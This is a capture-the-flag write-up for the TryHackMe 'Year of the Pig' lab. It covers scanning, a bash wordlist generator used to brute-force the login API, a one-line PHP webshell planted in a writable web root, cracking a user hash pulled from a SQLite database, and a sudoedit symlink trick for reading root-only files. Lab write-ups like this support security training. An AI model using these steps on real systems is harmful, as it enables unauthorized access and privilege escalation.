## TL;DR

In this challenge we first brute force to find the password of `marco` according to the passwords policy.
Then, we connect via ssh and put webshell using our group permissions to gain shell as `www-data`.

We find the hash of `curtis` inside local db and crack it, and lastly moving to `root` using sudo permissions on `sudoedit`, and playing with soft links.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http service.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 9899F13BCC614EE8275B88FFDC0D04DB
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `yearofthepig.thm` to my `/etc/hosts`.

### Brute force to find the password of marco

I visited the main page, nothing too interesting:



Then, I went for fuzzing using `ffuf`:
```bash
┌──(agonen㉿kali)-[~/thm/YearofthePig]                                                                                                           
└─$ ffuf -u 'http://yearofthepig.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/big.txt -fc 403                                          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://yearofthepig.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

admin                   [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 170ms]
api                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 172ms]
assets                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 165ms]
css                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 169ms]
:: Progress: [20481/20481] :: Job [1/1] :: 241 req/sec :: Duration: [0:01:28] :: Errors: 0 ::
```

I tried to login with default credentials, and saw this error message:
```
Remember that passwords should be a memorable word, followed by two numbers and a special character
```



Okay, we remember this is `marco`'s blog, so the username is probably `marco`.
Then, we want to scrap all words from the main page, maybe one of them is the memorable word. We'll use `cewl` to get first list of scraped words from the main page:
```bash
┌──(agonen㉿kali)-[~/thm/YearofthePig]
└─$ cewl http://yearofthepig.thm/ > scraped.txt; wc -l scraped.txt 
168 scraped.txt
```

Now, we have wordlist of 168 words. Next step will be to use some bash script chatGPT gave us to create the enhanced wordlist, based on the password policy.

We'll use this bash script to create the wordlist and the lookup:
```bash
#!/bin/bash

specials='!@#$%^&*'

# Clear output files first
> lookup.txt
> wordlist_md5.txt

while read -r word; do
    variants=(
        "$word"
        "$(tr '[:upper:]' '[:lower:]' <<< "$word")"
    )

    for variant in "${variants[@]}"; do
        for num in $(seq -w 0 99); do
            for (( i=0; i<${#specials}; i++ )); do
                password="${variant}${num}${specials:$i:1}"
                hash=$(echo -n "$password" | openssl md5 | awk '{print $2}')
                
                # Write hash:password format
                printf "%s:%s\n" "$hash" "$password" >> lookup.txt
                
                # Write hash only
                printf "%s\n" "$hash" >> wordlist_md5.txt
            done
        done
    done
done < scraped.txt
```

Now, we can execute this. Before, I asked chatGPT to gave me the most probable words to be password from the `cewl` output, and he gave me this list:
```
Marco
Taylor
Milan
Savoia
Macchi
Curtiss
Flying
Fighters
Airforce
pilot
plane
planes
Agility
beloved
favourite
king
skies
life
love
Bootstrap
plugin
Google
CSS
Blog
Maintenance
Core
First
Third
```

Now, we can start, execute the bash script and after creating the wordlist, use `ffuf` to brute force:
```bash
┌──(agonen㉿kali)-[~/thm/YearofthePig]                                                                                                           
└─$ ffuf -u 'http://yearofthepig.thm/api/login' -w wordlist_md5.txt -X POST -d '{"username":"marco","password":"FUZZ"}' -fc 403 -fs 63 -v -c        
                                                                                                                                                 
        /'___\  /'___\           /'___\                                                                                                          
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                          
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                         
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                         
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                          
          \/_/    \/_/   \/___/    \/_/                                                                                                          
                                                                                                                                                 
       v2.1.0-dev                                                                                                                                
________________________________________________                                                                                                 
                                                                                                                                                 
 :: Method           : POST                                                                                                                      
 :: URL              : http://yearofthepig.thm/api/login                                                                                         
 :: Wordlist         : FUZZ: /home/agonen/thm/YearofthePig/wordlist_md5.txt                                                                      
 :: Data             : {"username":"marco","password":"FUZZ"}                                                                                    
 :: Follow redirects : false                                                                                                                     
 :: Calibration      : false                                                                                                                     
 :: Timeout          : 10                                                                                                                        
 :: Threads          : 40                                                                                                                        
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                                      
 :: Filter           : Response status: 403                                                                                                      
 :: Filter           : Response size: 63                                                                                                         
________________________________________________

[Status: 200, Size: 99, Words: 3, Lines: 1, Duration: 174ms]
| URL | http://yearofthepig.thm/api/login
    * FUZZ: ea22b622ba9b3c41b22785dcb40211ac
```



Okay, we can use the lookup to find the password of `ea22b622ba9b3c41b22785dcb40211ac`:
```bash
┌──(agonen㉿kali)-[~/thm/YearofthePig]
└─$ grep 'ea22b622ba9b3c41b22785dcb40211ac' lookup.txt  
ea22b622ba9b3c41b22785dcb40211ac:savoia21!
```

and using the credentials, `marco:savoia21!`, we can login to the portal:



### connect via ssh to user marco with the password we found

I went to the commands tab and got `RCE`:



I tried to execute commands, most of the commands were banned, so I couldn't even execute `ls` and `cd`. This is the script i saw, after login via ssh, at the next step



However, I managed to connect via ssh using the credentials and grab the first flag:
```bash
ssh marco@yearofthepig.thm # savoia21!
```



So, the first flag:
```bash
marco@year-of-the-pig:~$ cat flag1.txt 
THM{MDg0MGVjYzFjY2ZkZGMzMWY1NGZiNjhl}
```

### add webshell using group permissions to gain shell as www-data

we can see we are in group `web-developers`, using the command id:
```bash
marco@year-of-the-pig:~$ id
uid=1000(marco) gid=1000(marco) groups=1000(marco),1002(web-developers)
```

This group gives us ownership over the folder `/var/www/` and `/var/www/html`:
```bash
marco@year-of-the-pig:/var/www/html/admin$ find / -group web-developers 2>/dev/null                                                              
/var/www                                                                                                                                         
/var/www/html
```

We can add our webshell, and then get shell as `www-data`:
```bash
marco@year-of-the-pig:~$ echo -e '<?php system($_GET[0]) ?>' > /var/www/html/webshell.php 
```

Let's check the webshell:
```bash
┌──(agonen㉿kali)-[~/thm/YearofthePig]                                                                                                           
└─$ curl 'http://yearofthepig.thm/webshell.php?0=id'                                                                                             
uid=33(www-data) gid=33(www-data) groups=33(www-data),1002(web-developers)
```

Okay, now can paste our penelope payload and get reverse shell as www-data.



### Find hash of user curtis and crack it

we can find the file `admin.db` which is sqlite3 db.
```bash
www-data@year-of-the-pig:/var/www$ file admin.db 
admin.db: SQLite 3.x database, last written using SQLite version 3022000
www-data@year-of-the-pig:/var/www$ sqlite3 admin.db 
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
sessions  users   
sqlite> select * from users;
58a2f366b1fd51e127a47da03afc9995|marco|ea22b622ba9b3c41b22785dcb40211ac
f64ccfff6f64d57b121a85f9385cf256|curtis|a80bfe309ecaafcea1ea6cb3677971f2
```

Using [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) I cracked the hash of user `curtis`:



So, now we have the credentials:
```bash
curtis:Donald1983$
```

I changed user to `curtis`:



the second flag:
```bash
THM{Y2Q2N2M1NzNmYTQzYTI4ODliYzkzMmZh}
```

### Privilege Escalation to Root using sudoedit

we can check for sudo permissions:
```bash
curtis@year-of-the-pig:~$ sudo -l 
[sudo] password for curtis: 
Matching Defaults entries for curtis on year-of-the-pig:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH"

User curtis may run the following commands on year-of-the-pig:
    (ALL : ALL) sudoedit /var/www/html/*/*/config.php
```

Okay, let's create the folder `/var/www/html/bla/bla` using user `www-data`:
```bash
mkdir /var/www/html/bla/bla -p
```


and now create soft link to `/root/root.txt`, in order to read the flag:
```bash
ln -sf /root/root.txt /var/www/html/bla/bla/config.php
```

Lastly, we can use `sudoedit` to read `config.php`, which is `/root/root.txt`:
```bash
sudoedit /var/www/html/bla/bla/config.php
```



and the third flag:
```bash
THM{MjcxNmVmYjNhYzdkZDc0M2RkNTZhNDA0}
```

On the same way, we could have edit `/etc/passwd` and add our root user, or maybe change the public ssh key of user root, or grab the hash of its password from `/etc/shadow`.